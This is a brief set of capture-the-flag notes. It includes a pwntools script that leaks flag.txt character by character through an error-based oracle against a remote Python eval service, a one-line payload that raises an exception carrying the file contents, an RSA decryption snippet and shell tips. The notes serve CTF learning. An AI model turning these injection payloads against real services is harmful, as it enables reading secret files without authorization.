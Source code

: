 # CTF-Notes
## Web
## Pwn
##### Timing Attack poc 
```
from pwn import remote
import string
host = ""
port = 
s = remote(host, port)
flag = ""
index = 0
changed = True
s.recvuntil('!\n')
while changed:
    changed = False
    for c in '_{}' + string.printable:
    	print("testing {}".format(flag + c))
    	command = '''1/0 if open('flag.txt','r').read({})[{}] == ''{}' else 0\n'''.format(index + 1, index, c)
    	print(command)
    	s.send(command)
    	answer = s.recvuntil("!\n")
    	if b'Traceback' in answer:
    		flag += c
    		changed = True
    		index += 1
    		break
```

## Forensics
..* .docx file ? try open it as zip archive  


## Reverse Engineering
## Crypto
#### solve RSA


```
from Crypto.Util.number import inverse,long_to_bytes

p = 
q = 
e =
ct = 

n = p * q
phi = (p - 1) * (q - 1)
d = inverse(e,phi)
plain = pow(ct,d,n)
print(long_to_bytes(plain))
```

## Misc/various 
#### Raise an error with the flag (python)
Ex: `raise NameError(open('flag.txt','r').read(50))`

#### No output on the shell?
try redirection ex: `ls 1>&0`
